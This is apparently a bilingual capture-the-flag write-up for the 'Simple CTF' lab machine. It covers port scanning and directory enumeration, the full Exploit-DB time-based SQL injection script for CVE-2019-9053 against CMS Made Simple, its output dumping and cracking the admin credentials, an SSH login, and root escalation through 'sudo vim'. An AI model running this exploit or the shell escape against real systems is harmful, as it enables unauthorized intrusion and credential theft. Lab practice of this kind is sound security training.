

# Simple CTF

## Active Machine Information
### Title: EasyCTF
### IP Address: 10.10.108.183

## Answer the questions below

1. How many services are running under port 1000?(Quantos serviços estão rodando a baixo da porta 1000?)

```bash
┌─[✗]─[root@parrot]─[/home/patrick/Desktop/Simple_CTF]
└──╼ $nmap 10.10.108.183
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-18 19:17 -03
    Nmap scan report for 10.10.108.183
    Host is up (0.24s latency).
    Not shown: 997 filtered tcp ports (no-response)
    PORT     STATE SERVICE
    21/tcp   open  ftp
    80/tcp   open  http
    2222/tcp open  EtherNetIP-1

    Nmap done: 1 IP address (1 host up) scanned in 25.76 seconds
┌─[root@parrot]─[/home/patrick/Desktop/Simple_CTF]
└──╼ #
```
<center><span style="color: green">
Resposta então é <u><b>2</b></u>: pois estão abertas as portas 21 e 80 que são menores que 1000 
</span></center>

---

2. What is running on the higher port?(O que está sendo executado na maior porta?)

```bash
┌─[root@parrot]─[/home/patrick/Desktop/Simple_CTF]
└──╼ $nmap -sV 10.10.108.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-18 19:33 -03
Nmap scan report for 10.10.108.183
Host is up (0.23s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.78 seconds
┌─[root@parrot]─[/home/patrick/Desktop/Simple_CTF]
└──╼ #
```
<center><span style="color: green">
Resposta então é <u><b>ssh</b></u>: pois e o serviço que esta rodando na porta 2222 que e a maior porta
</span></center>

---

3. What's the CVE you're using against the application?(
Qual é o CVE que você está usando no aplicativo?)

* Qual e a Aplicação ? Provavelmente esta rodando algo no http na porta 80


* Buscar Diretorios na porta HTTP(80)
```bash
┌─[✗]─[patrick@parrot]─[~/Desktop/Simple_CTF]
└──╼ $dirb http://10.10.108.183/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Apr 19 22:44:55 2023
URL_BASE: http://10.10.108.183/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.108.183/ ----
+ http://10.10.108.183/index.html (CODE:200|SIZE:11321)                                                        
+ http://10.10.108.183/robots.txt (CODE:200|SIZE:929)                                                          
+ http://10.10.108.183/server-status (CODE:403|SIZE:301)                                                       
==> DIRECTORY: http://10.10.108.183/simple/                                                                    
                                                                                                               
---- Entering directory: http://10.10.108.183/simple/ ----
==> DIRECTORY: http://10.10.108.183/simple/admin/                                                              
==> DIRECTORY: http://10.10.108.183/simple/assets/                                                             
==> DIRECTORY: http://10.10.108.183/simple/doc/                                                                
+ http://10.10.108.183/simple/index.php (CODE:200|SIZE:19993)                                                  
==> DIRECTORY: http://10.10.108.183/simple/lib/                                                                
==> DIRECTORY: http://10.10.108.183/simple/modules/                                                            
==> DIRECTORY: http://10.10.108.183/simple/tmp/                                                                
==> DIRECTORY: http://10.10.108.183/simple/uploads/                                                            
                                                                                                               
---- Entering directory: http://10.10.108.183/simple/admin/ ----
+ http://10.10.108.183/simple/admin/index.php (CODE:302|SIZE:0)                                                
==> DIRECTORY: http://10.10.108.183/simple/admin/lang/                                                         
==> DIRECTORY: http://10.10.108.183/simple/admin/plugins/                                                      
==> DIRECTORY: http://10.10.108.183/simple/admin/templates/                                                    
==> DIRECTORY: http://10.10.108.183/simple/admin/themes/                                                       
                                                                                                               
---- Entering directory: http://10.10.108.183/simple/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                               
---- Entering directory: http://10.10.108.183/simple/doc/ ----
+ http://10.10.108.183/simple/doc/index.html (CODE:200|SIZE:24)                                                
+ http://10.10.108.183/simple/doc/robots.txt (CODE:200|SIZE:121)                                               
                                                                                                               
---- Entering directory: http://10.10.108.183/simple/lib/ ----
==> DIRECTORY: http://10.10.108.183/simple/lib/assets/                                                         
==> DIRECTORY: http://10.10.108.183/simple/lib/classes/                                                                                           
┌─[✗]─[patrick@parrot]─[~/Desktop/Simple_CTF]
└──╼ $
```


<center><span style="color: green">
A aplicação e CMS Made Simple version 2.2.8
buscando no Exploit Database não tem um CVE especifico para a versão 2.2.8, porem tem um SQL Injection (SQLi) para qualqer versao menor que 2.2.10 (https://www.exploit-db.com/exploits/46635)....
Resposta então é <u><b>CVE-2019-9053</b></u>.
</span></center>

---

4. To what kind of vulnerability is the application vulnerable?(
A que tipo de vulnerabilidade o aplicativo está vulnerável?)

<center><span style="color: green">
Resposta então é <u><b>SQLi</b></u>.
</span></center>

---

5. What's the password?(
Qual é a senha?)
* Scrip do CVE (https://www.exploit-db.com/download/46635)
```python
#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053

import requests
from termcolor import colored
import time
from termcolor import cprint
import optparse
import hashlib

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)

options, args = parser.parse_args()
if not options.url:
    print ("[+] Specify an url target")
    print ("[+] Example usage (no cracking password): exploit.py -u http://target-uri")
    print ("[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist")
    print ("[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.")
    exit()

url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""

salt = ''
wordlist = ""
if options.wordlist:
    wordlist += options.wordlist

def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        beautify_print_try(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            break
    dict.close()

def beautify_print_try(value):
    global output
    print("\033c")
    cprint(output,'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print("\033c")
    cprint(output,'green', attrs=['bold'])

def dump_salt():
    global flag
    global salt
    global output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_salt = salt + dictionary[i]
            ord_salt_temp = ord_salt + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_salt)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp
    flag = True
    output += '\n[+] Salt for password found: ' + salt

def dump_password():
    global flag
    global password
    global output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_password = password + dictionary[i]
            ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_password)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
            payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += '\n[+] Password found: ' + password

def dump_username():
    global flag
    global db_name
    global output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True

def dump_email():
    global flag
    global email
    global output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_email = email + dictionary[i]
            ord_email_temp = ord_email + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_email)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+email+like+0x" + ord_email_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += '\n[+] Email found: ' + email
    flag = True

dump_salt()
dump_username()
dump_email()
dump_password()

if options.cracking:
    print(colored("[*] Now try to crack password"))
    crack_password()

beautify_print()
```
* Descompactando wordlists
```bash
┌─[✗]─[patrick@parrot]─[/usr/share/wordlists]
└──╼ $sudo gunzip /usr/share/wordlists/rockyou.txt.gz
┌─[✗]─[patrick@parrot]─[/usr/share/wordlists]
└──╼ $head /usr/share/wordlists/rockyou.txt 
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
┌─[patrick@parrot]─[/usr/share/wordlists]
└──╼ $
```
* Executando exploit 

```bash
┌─[✗]─[patrick@parrot]─[~/Desktop/Simple_CTF]
└──╼ $python2 exploit.py -u http://10.10.108.183/simple/ --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
┌─[patrick@parrot]─[/usr/share/wordlists]
└──╼ $
```
<center><span style="color: green">
Resposta então é <u><b>secret</b></u>: que foi o retorno do exploit.py
</span></center>

---

6. Where can you login with the details obtained?(Onde você pode fazer o login com os detalhes obtidos?)

```bash
─[✗]─[patrick@parrot]─[~/Desktop/Simple_CTF]
└──╼ $ssh mitch@10.10.108.183 -p 2222
The authenticity of host '[10.10.108.183]:2222 ([10.10.108.183]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.108.183]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.108.183's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 
```
<center><span style="color: green">
Resposta então é <u><b>ssh</b></u>
</span></center>

---

7. What's the user flag?(Qual é a bandeira do usuário?)

```bash
Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!
$
```
<center><span style="color: green">
Resposta então é <u><b>G00d j0b, keep up!</b></u>
</span></center>

---

8. Is there any other user in the home directory? What's its name?(Existe algum outro usuário no diretório inicial? Qual o nome disso?)

```bash
$ pwd 
/home/mitch
$ cd .. 
$ pwd
/home
$ ls
mitch  sunbath
$
```
<center><span style="color: green">
Resposta então é <u><b>sunbath</b></u>
</span></center>

---

9. What can you leverage to spawn a privileged shell?(O que você pode aproveitar para gerar um shell privilegiado?)

```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
$
```
<center><span style="color: green">
Resposta então é <u><b>vim</b></u>
</span></center>

---

10. What's the root flag?(Qual é a bandeira root?)
* privilege escalation vim(https://gtfobins.github.io/gtfobins/vim/)
```bash
$ whoami
mitch
$ sudo vim -c ':!/bin/sh'

# ^[[2;2R^[]11;rgb:1e1e/1e1e/1e1e^[\
> 
/bin/sh: 1: ot found
/bin/sh: 1: 2R not found
# whoami
root
# cd /
# cd root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
#
```
<center><span style="color: green">
Resposta então é <u><b>W3ll d0n3. You made it!</b></u>
</span></center>